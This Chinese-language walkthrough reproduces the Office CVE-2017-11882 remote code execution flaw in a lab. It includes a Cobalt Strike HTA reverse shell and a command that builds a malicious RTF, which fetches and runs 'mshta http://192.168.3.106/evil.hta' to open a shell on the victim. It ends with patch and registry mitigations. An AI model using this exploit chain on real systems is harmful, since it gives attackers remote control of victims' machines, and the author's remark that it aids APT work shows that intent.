


## 0x00 前言

参考backlion师傅的PDF，记录一下这个过程。

2017年11月14日，微软发布了11月份的安全补丁更新，其中比较引人关注的莫过于悄然修复了潜伏17年之久的Office远程代码执行漏洞（CVE-2017-11882）。该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本。攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。
由于漏洞影响面较广，漏洞披露后，金睛安全研究团队持续对漏洞相关攻击事件进行关注。11月19日，监控到了已有漏洞POC在网上流传，随即迅速对相关样本进行了分析。目前该样本全球仅微软杀毒可以检测。

* 漏洞影响版本：
* Office 365
* Microsoft Office 2000      
* Microsoft Office 2003      
* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2
* Microsoft Office 2013 Service Pack 1
* Microsoft Office 2016

## 0x01 环境清单

* WindowsServer 2008 (192.168.3.114)
* Office 2007
* MAC OSX(192.168.3.106)

## 0X02 复现过程

### 使用Cobalt Strike生成hta反弹shell



将生成的hta文档放入WebServer根目录：http://192.168.3.106/evil.hta

我(Cobalt Strike)本地监听了一个8081端口，用来接收客户端的Shell


### 生成一个rtf/doc文档

github上已有生成脚本

`webdav_exec_CVE-2017-11882.py` 地址： http://payloads.online/tools/cve-2017-11882/webdav_exec_CVE-2017-11882.py

生成rtf文档：

```
python webdav_exec_CVE-2017-11882.py -u http://192.168.3.106/evil.hta -e "mshta http://192.168.3.106/evil.hta" -o test.rtf
!!! Completed !!!
```

最后将test.rtf在目标机器上执行 `=_=||`，其实可以实战的，对于APT的帮助很大

### 结果

目标机器上执行后，我们可以在Cobalt Strike看到来自客户端的会话




## 0x03 修复建议

1、微软已经对此漏洞做出了修复。

* 下载`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`  更新补丁进行修补
*  开启Windows Update功能，定期对系统进行自动更新

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

* 按下Win R组合键，打开cmd.exe
* 输入以下两条命令：
`reg add  “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility  Flags”  /t  REG_DWORD /d    0x400`


